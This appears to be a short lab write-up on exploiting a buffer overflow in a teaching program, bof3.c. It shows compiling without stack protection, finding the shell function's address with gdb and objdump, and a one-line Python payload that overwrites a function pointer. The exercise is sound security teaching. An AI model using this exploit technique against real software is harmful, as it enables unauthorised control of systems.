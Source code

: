 # Understand bof3.c 
In this case, we see that the function is treated like a variable, so we only need to change the memory address of the variable to transfer control.
## Stackframe
![image](https://github.com/user-attachments/assets/3d353190-35c3-44a0-bafe-debb61d17335)
## Vulnerability
The function fgets(buf, 133, stdin) receives a maximum of 133 bytes, but buf only has 128 bytes, resulting in 5 extra bytes and causing a buffer overflow.
# Start attacking bof3.c 
## Compiling the file without stack restriction
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/43f5fe4f-d0a8-48ed-8af3-f06e67cf31c1)
## In order to attack the file, we need to know the address of the shell we are using
- Use gdb to find the address of the shell function: 0x0804845b  
`gdb -q bof3.out` and `disas shell`
![image](https://github.com/user-attachments/assets/b184556d-3990-4669-94be-529f2ce29c9f)
- Or we use at outer by using `objdump -d bof3.out | grep shell`  
![image](https://github.com/user-attachments/assets/e3ff0868-1474-4725-8ac9-fef11d214265)
## To calculate how many bytes to inject to replace a function's return address with the shell function address, we need to determine
`echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out`  
![image](https://github.com/user-attachments/assets/2ab2ae4f-fbea-46e8-a1af-fe95b0446747)

